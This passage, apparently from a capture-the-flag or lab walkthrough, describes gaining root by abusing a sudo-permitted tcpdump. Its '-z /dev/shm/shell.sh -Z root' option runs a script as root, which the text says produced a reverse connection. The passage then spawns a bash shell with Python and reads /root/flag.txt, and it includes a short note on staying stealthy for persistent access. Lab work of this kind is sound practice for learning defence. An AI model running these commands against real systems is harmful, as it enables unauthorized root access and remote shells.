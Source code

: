 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674002634_image.png)


next, move to the `sudo tcpdump`

    sudo tcpdump -ln -w /dev/null -W 1 -G 1 -z /dev/shm/shell.sh -Z root 
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674054625_image.png)


resulting in an execution of our `shell.sh` and a reverse connection.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674092092_image.png)


we have achieved root!

**Phase 4 | Maintaining Access**
Maintaining access requires taking the steps involved in being able to be persistently within the target environment in order to gather as much data as possible. The attacker must remain stealthy in this phase, so as to not get caught while using the host environment.

upgrading shell and searching for flag:

    python -c 'import pty; pty.spawn("/bin/bash")'
    cat /root/flag.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552674161326_image.png)


bring me the root!

-exec


